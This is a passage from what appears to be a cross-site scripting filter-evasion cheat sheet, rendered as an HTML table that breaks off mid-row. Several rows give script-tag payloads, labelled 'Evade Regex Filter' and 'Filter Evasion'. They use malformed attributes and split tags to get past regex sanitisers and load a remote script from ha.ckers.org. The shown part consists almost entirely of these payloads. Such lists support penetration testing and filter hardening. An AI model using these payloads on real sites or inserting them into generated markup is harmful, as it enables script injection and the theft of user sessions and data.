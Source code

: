 </td>
<td></td>
<td></td>
</tr>
<tr>
<td>Evade Regex Filter 1</td>
<td>
<pre>&lt;SCRIPT a="&gt;" »
SRC="http://ha.ckers.org/xss »
.js"&gt;&lt;/SCRIPT&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Evade Regex Filter 2</td>
<td>
<pre>&lt;SCRIPT ="blah" »
SRC="http://ha.ckers.org/xss »
.js"&gt;&lt;/SCRIPT&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Evade Regex Filter 3</td>
<td>
<pre>&lt;SCRIPT a="blah" '' »
SRC="http://ha.ckers.org/xss »
.js"&gt;&lt;/SCRIPT&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Evade Regex Filter 4</td>
<td>
<pre>&lt;SCRIPT "a='&gt;'" »
SRC="http://ha.ckers.org/xss »
.js"&gt;&lt;/SCRIPT&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Evade Regex Filter 5</td>
<td>
<pre>&lt;SCRIPT a=`&gt;` »
SRC="http://ha.ckers.org/xss »
.js"&gt;&lt;/SCRIPT&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Filter Evasion 1</td>
<td>
<pre>&lt;SCRIPT&gt;document.write("&lt;SCR »
I");&lt;/SCRIPT&gt;PT »
SRC="http://ha.ckers.org/xss »
.js"&gt;&lt;/SCRIPT&gt;</pre>
</td>
<td>
<pre>PT »